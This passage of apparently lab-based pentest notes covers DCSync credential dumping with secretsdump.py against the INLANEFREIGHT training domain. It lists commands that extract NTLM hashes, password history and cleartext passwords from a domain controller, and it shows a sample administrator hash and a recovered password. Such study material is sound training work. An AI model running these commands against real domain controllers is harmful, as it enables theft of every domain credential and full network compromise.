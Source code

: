 
### **Advanced secretsdump.py Options**

#### **Targeted Extraction**
```bash
# Extract only NTLM hashes (no Kerberos keys)
secretsdump.py -just-dc-ntlm INLANEFREIGHT/adunn@172.16.5.5

# Extract data for specific user only
secretsdump.py -just-dc-user administrator INLANEFREIGHT/adunn@172.16.5.5

# Include password last set information
secretsdump.py -just-dc -pwd-last-set INLANEFREIGHT/adunn@172.16.5.5

# Include password history
secretsdump.py -just-dc -history INLANEFREIGHT/adunn@172.16.5.5

# Check user status (enabled/disabled)
secretsdump.py -just-dc -user-status INLANEFREIGHT/adunn@172.16.5.5
```

#### **Output File Analysis**
```bash
# List generated files
ls inlanefreight_hashes*

# Output files:
# inlanefreight_hashes.ntds          - NTLM hashes
# inlanefreight_hashes.ntds.cleartext - Cleartext passwords
# inlanefreight_hashes.ntds.kerberos  - Kerberos keys
```

### **Analyzing Extracted Data**

#### **NTLM Hash Format**
```
username:uid:lmhash:nthash:::
administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
```

#### **Cleartext Password Analysis**
```bash
# View accounts with cleartext passwords
cat inlanefreight_hashes.ntds.cleartext

# Expected output:
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

---

## 🪟 **DCSync from Windows - Mimikatz**

